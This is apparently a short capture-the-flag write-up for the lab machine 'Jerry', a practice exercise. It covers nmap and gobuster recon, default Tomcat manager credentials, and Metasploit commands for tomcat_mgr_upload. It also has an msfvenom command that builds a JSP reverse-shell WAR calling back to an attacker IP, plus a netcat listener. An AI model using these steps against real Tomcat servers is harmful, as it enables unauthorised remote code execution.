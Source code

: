 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Jerry
# 16/3/2023
10.10.10.95

----------------------------------------------------
# nmap
----------------------------------------------------
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

----------------------------------------------------
# gobuster 
----------------------------------------------------
http://10.10.10.95:8080/manager

/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]

----------------------------------------------------
# exploitation
----------------------------------------------------
use admin:admin on port 8080/manger it gave id pass
user username="tomcat" password="s3cret"
we can clear our session cookie and re enter it with this creds
aslo we can try brute force for defaults creds of tomcat , but this creds works so no need of it

msf exploit(multi/http/tomcat_mgr_upload) > set rhost 10.10.10.95
msf exploit(multi/http/tomcat_mgr_upload) > set rport 8080
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword s3cret
msf exploit(multi/http/tomcat_mgr_upload) > exploit

or msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.108 LPORT=1234 -f war > shell.war
nc -lvp 1234 and do it manually

we got shell as jerry


